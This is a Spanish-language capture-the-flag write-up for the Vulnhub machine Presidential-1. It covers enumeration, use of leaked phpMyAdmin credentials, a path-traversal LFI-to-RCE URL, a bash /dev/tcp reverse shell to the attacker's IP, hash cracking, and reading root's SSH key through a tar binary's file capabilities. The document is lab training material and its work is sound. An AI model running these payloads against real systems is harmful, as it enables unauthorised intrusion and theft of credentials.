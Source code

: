 #vulnhub #ctf-machine #medium-machine #linux [Vulnhub Link](https://www.vulnhub.com/entry/presidential-1,500/)
## Enumeración inicial
Primeramente hacemos un escaneo ARP con `arp-scan` para identificar la dirección IPv4 de nuestra máquina objetivo:
![[Pasted image 20240821110802.png]]

Una vez identificada la máquina enviamos con `ping` una traza ICMP para identificar provisionalmente el sistema operativo al que nos estamos enfrontando. Como el TTL = 64 podemos decir que se trata de una máquina Linux:
![[Pasted image 20240821110925.png]]


### Nmap
Hacemos un primer escaneo con `nmap` para detectar los puertos abiertos mediante el protocolo TCP que hay en la máquina:
![[Pasted image 20240821111134.png]]

Como podemos ver hay abiertos 2 puertos, el puerto 80 y 2082. Por lo tanto, hacemos un segundo escaneo con `nmap` para detectar la versión y servicio que corren bajo estos 2 puertos:
![[Pasted image 20240821111435.png]]

Podemos confirmar entonces que se trata de un sistema Linux CentOS al parecer. Además, podemos ver que por el puerto 2082 se está ejecutando el servicio OpenSSH de versión 7.4 que es vulnerable a enumeración de usuarios:
![[Pasted image 20240821111628.png]]

Por último hacemos un escaneo último escaneo con `nmap` utilizando el script "http-enum" en busca de directorios bajo el protocolo HTTP del puerto 80:
![[Pasted image 20240821111900.png]]

Podemos ver que hay un directorio `/icons/` con capacidad de *directory listing*.

## Enumeración Web
Si hacemos un análisis con `whatweb` podemos ver 2 emails y que se utiliza una versión de PHP bastante antigua:
![[Pasted image 20240821112405.png]]

Si accedemos a la web podemos ver la página inicial:
![[Pasted image 20240821112611.png]]

Si abrimos el `wappalyzer` podemos confirmar que se trata de un CentOS y que utiliza la versión de PHP 5.5.38:
![[Pasted image 20240821112805.png]]

Si hacemos un escaneo con `wfuzz` de directorios encontramos los directorios "cgi-bin", "icons" y "assets":
![[Pasted image 20240821113840.png]]

Si ahora buscamos por archivos con extensión ".php" encontramos el archivo `/config.php`:
![[Pasted image 20240821114257.png]]

Si seguimos haciendo *fuzzing* de archivos con extensión ".html" encontramos el archivo `/about.html`:
![[Pasted image 20240821115029.png]]

Que al acceder a él simplemente vemos una plantilla no modificada expuesta:
![[Pasted image 20240821115117.png]]

Si buscamos subdominios con `gobuster` utilizando diversos diccionarios, finalmente encontramos este subdominio:
![[Pasted image 20240821121808.png]]

Si entramos a la página podemos ver que hay un panel de autentificación:
![[Pasted image 20240821122534.png]]


![[Pasted image 20240821122757.png]]

Si accedemos a `Changelog` podemos ver la versión que está corriendo de "phpmyadmin":
![[Pasted image 20240821123135.png]]

Que si buscamos sobre esta versión en `searchsploit` podemos ver que hay una vulnerabilidad LFI una vez autenticados:
![[Pasted image 20240821123302.png]]

Por lo que nos interesa buscar la forma de autentificarnos. Si seguimos haciendo enumeración de `votenow.local` con extensiones ".bak", etc. utilizando `gobuster` encontramos lo siguiente:
![[Pasted image 20240821125529.png]]

Si accedemos a él encontramos lo siguiente:
![[Pasted image 20240821125627.png]]

Así que sí intentamos acceder al "phpmyadmin" de `datasafe.votenow.local`, podemos acceder:
![[Pasted image 20240821130009.png]]

Como habíamos visto antes, para esta versión si estamos autentificados tenemos capacidad de un *Local File Inclusion* to *RCE* por lo que si leemos el PoC del *exploit* vemos que tenemos que crear un SQL query con código PHP para luego apuntar a un archivo de nuestra sesión de la máquina y que se interprete el código PHP.
![[Pasted image 20240821150752.png]]

Por lo tanto, primeramente creamos una query SQL con código PHP dentro de `server_sql.php`:
![[Pasted image 20240821152041.png]]

Una vez ejecutada la query, accedemos a nuestra sesión de la máquina utilizando esta url que contiene nuestra sesión:
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../../../../../var/lib/php/session/sess_oe3ugns174gnbcpt24844h6cn1j1bpfq

![[Pasted image 20240821152155.png]]

Y como podemos ver si concatenamos el parametro "cmd" en la url tenemos capacidad de ejecución de comandos:
![[Pasted image 20240821152350.png]]

Por lo que nos entablamos una reverse shell con el comando:
```bash
bash -c "bash -i >& /dev/tcp/192.168.1.21/443 0>&1"
```
![[Pasted image 20240821152542.png]]

Seguidamente, hacemos el tratamiento de la TTY:
![[Pasted image 20240821152710.png]]
![[Pasted image 20240821152758.png]]

## Escalada de privilegios
Si accedemos a MySQL y sacamos todos los usuarios de la base de datos "votebox" podemos ver que hay un usuario admin con un *hash* que podemos intentar *crackear*:
![[Pasted image 20240821160021.png]]

Así que intentamos *crackear* el *hash* utilizando la herramienta `john` junto al `rockyou.txt`:
![[Pasted image 20240821164107.png]]

Así que intentamos emigrar al usuario "admin" con esta contraseña:
![[Pasted image 20240821162859.png]]

Si accedemos al `/home/admin` podemos visualizar la flag:
![[Pasted image 20240821162939.png]]

Además podemos visualizar un archivo  `notes.txt` donde pone lo siguiente:
![[Pasted image 20240821163215.png]]

Si listamos las *capabilities* vemos un binario tarS con permisos "cap_dac_read_search+ep":
![[Pasted image 20240821165241.png]]

La cual cosa nos puede permitir leer archivos de la máquina que en un principio no podemos. Por lo tanto podemos comprimir los archivos que deseamos leer y descomprimirlos. Utilizando `tarS` que es como `tar`. Así que si comprimimos el archivo `/root/.ssh/id_rsa`, podemos ver la clave privada del usuario root y obtener acceso a la máquina como root.
![[Pasted image 20240821170754.png]]

Así que desde nuestra máquina y con la clave privada en un archivo `id_rsa`, accedemos a la máquina como root:
![[Pasted image 20240821170849.png]]

Y desde el directorio `/root` visualizamos la última *flag*:
![[Pasted image 20240821170936.png]]

___
#web-enumeration #information-leakage #local-file-inclusion #hash-cracking #abusing-capabilities 
___